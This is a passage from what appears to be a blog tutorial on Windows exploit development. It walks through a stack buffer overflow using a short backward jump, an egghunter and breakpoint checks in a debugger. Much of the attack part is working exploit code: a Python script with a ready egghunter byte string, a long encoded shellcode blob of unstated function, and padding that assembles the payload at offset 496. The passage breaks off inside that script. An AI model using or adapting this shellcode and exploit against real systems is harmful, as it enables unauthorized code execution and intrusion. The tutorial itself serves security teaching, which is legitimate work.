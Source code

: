 {:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows13.png)
{: refdef}

As you can see, we managed to control the execution flow and jump backward. Next, we need to generate an egghunter so that we can move the execution at the beginning of the exploit to give us more room for our shellcode.

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows14.png)
{: refdef}

Copy the result above and put it in the python script.

Update the script like the below screenshoot:

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows15.png)
{: refdef}

496 is the offset where our short jump will take us in exploit and this is where the egghunter will be placed. If everything goes well, the execution will changed to where "w00tw00t" string reside and hit a breakpoint "\xcc". Run the exploit and skip several instructions after the hardware breakpoint is hit, you will arrived at the egghunter.

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows16.png)
{: refdef}

Click continue by clicking "run program" icon or just klik f9. You will be taking to where "w00t" string and hit next breakpoint "\xcc". Cool! we now have a lot of space to put our shellcode.

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows17.png)
{: refdef}

Finally, lets update our exploit script like this:

{% highlight py %}

import struct

egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

shellcode = ("\xd9\xd0\xd9\x74\x24\xf4\xbd\x36\x25\xcf\x92\x5e\x31\xc9\xb1"
"\x31\x31\x6e\x18\x03\x6e\x18\x83\xc6\x32\xc7\x3a\x6e\xd2\x85"
"\xc5\x8f\x22\xea\x4c\x6a\x13\x2a\x2a\xfe\x03\x9a\x38\x52\xaf"
"\x51\x6c\x47\x24\x17\xb9\x68\x8d\x92\x9f\x47\x0e\x8e\xdc\xc6"
"\x8c\xcd\x30\x29\xad\x1d\x45\x28\xea\x40\xa4\x78\xa3\x0f\x1b"
"\x6d\xc0\x5a\xa0\x06\x9a\x4b\xa0\xfb\x6a\x6d\x81\xad\xe1\x34"
"\x01\x4f\x26\x4d\x08\x57\x2b\x68\xc2\xec\x9f\x06\xd5\x24\xee"
"\xe7\x7a\x09\xdf\x15\x82\x4d\xe7\xc5\xf1\xa7\x14\x7b\x02\x7c"
"\x67\xa7\x87\x67\xcf\x2c\x3f\x4c\xee\xe1\xa6\x07\xfc\x4e\xac"
"\x40\xe0\x51\x61\xfb\x1c\xd9\x84\x2c\x95\x99\xa2\xe8\xfe\x7a"
"\xca\xa9\x5a\x2c\xf3\xaa\x05\x91\x51\xa0\xab\xc6\xeb\xeb\xa1"
"\x19\x79\x96\x87\x1a\x81\x99\xb7\x72\xb0\x12\x58\x04\x4d\xf1"
"\x1d\xea\xaf\xd0\x6b\x83\x69\xb1\xd6\xce\x89\x6f\x14\xf7\x09"
"\x9a\xe4\x0c\x11\xef\xe1\x49\x95\x03\x9b\xc2\x70\x24\x08\xe2"
"\x50\x47\xcf\x70\x38\xa6\x6a\xf1\xdb\xb6")


padding = "A" * 4
padding += "w00tw00t"
padding += "\x90" * 8
padding += shellcode
padding += "A" * (496 - len(padding))
padding += egghunter